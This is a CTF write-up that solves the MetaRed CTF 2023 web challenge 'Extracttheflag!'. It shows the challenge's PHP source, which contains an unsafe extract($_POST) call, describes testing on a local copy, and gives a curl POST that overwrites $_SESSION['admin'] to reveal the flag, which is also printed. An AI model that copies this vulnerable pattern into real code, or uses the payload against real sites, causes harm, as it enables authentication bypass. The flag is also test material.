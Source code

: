 # MetaRed CTF 2023 - Extracttheflag!

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



In this challenge we given the source code, let's see it.

{% code title="source.php" lineNumbers="true" %}
```php
 <?php
   if(isset($_GET['src'])){
    highlight_file(__FILE__);
    die();
}

  error_reporting(0 );
  include_once 'flag.php';
  session_start();
  $_SESSION['admin']=false;
  extract($_POST);
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Back to the Future</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
    <style>
        body {
            background-color: #f0f0f0;
        }
        .card {
            margin-bottom: 20px;
        }
        .card-img-top {
            width: 100%;
            height: 15vw;
            object-fit: cover;
        }
    </style>
</head>
<body>
    <div class="container py-5">
        <h1 class="text-center mb-5">Back to the Future</h1>
        <div class="row">
            <div class="col-md-4">
                <div class="card">
                    <img class="card-img-top" src="https://static1.cbrimages.com/wordpress/wp-content/uploads/2022/12/back-to-the-future-animated-series-marty-mcfly.jpg">
                    <div class="card-body">
                        <h5 class="card-title">Marty</h5>
                        <p class="card-text">Marty + cartoon</p>
                    </div>
                </div>
            </div>
            <div class="col-md-4">
                <div class="card">
                    <img class="card-img-top" src="https://streamondemandathome.com/wp-content/uploads/2015/10/back-to-future.jpg">
                    <div class="card-body">
                        <h5 class="card-title">Flyer</h5>
                        <p class="card-text">Random string.</p>
                    </div>
                </div>
            </div>
            <div class="col-md-4">
                <div class="card">
                    <img class="card-img-top" src="https://escribecine.com.mx/wp-content/uploads/2019/06/backtothefuture.png">
                    <div class="card-body">
                        <h5 class="card-title">Image 3</h5>
                        <p class="card-text">Description for image 3.</p>
                    </div>
                </div>
            </div>
        </div>
        <div class="row">
                <div class="card">
                   <h4>Flag</h4>
                      <!-- admin content -->
                      <?php
                      if (isset($_SESSION['admin'])) {
                        if ($_SESSION['admin']) {
                          echo "Your flag: ". $flag;
                          echo "<br>";
                        }
                      }
                      ?>
                </div>
            </div>

    </div>
    <script src="https://code.jquery.com/jquery-3.3.1.slim.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</body>
</html>


```
{% endcode %}

As we can see, the only suspicious about the code is function `extract` , after i search about it i found it in php documentation [here](https://www.php.net/manual/en/function.extract.php).

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Basically if the function `extract` used without flags for not overwriting, we can make post request and overwriting the global variable, in this case we want to set the session admin to true.

I create replicate php code like on the server.

{% code title="index.php" lineNumbers="true" %}
```php
<?php
  session_start();
  $_SESSION['admin']=false;
  extract($_POST);
  echo "Value: ".$_SESSION['admin'];
  echo "<br>";
  var_dump($_POST);
?>
```
{% endcode %}

And we can use burpsuite to send post data and the local server will return if we successfully modified the $\_SESSION\['admin'] value.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

The "admin" is wrap with `''` and on local server we got error undefined key "admin", let's try remove the `'`

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Now the error is dissapear but we still not overwrite the variable `$_SESSION` then i try to remove the `$` from payload.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We successfully overwrite global variable, now try on server and get the flag.

```sh
curl -X POST https://extracttheflag.ctf.cert.unlp.edu.ar/ --data "_SESSION[admin]=true"
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Flag: flag{PhP\_Th4nks\_for\_all!}
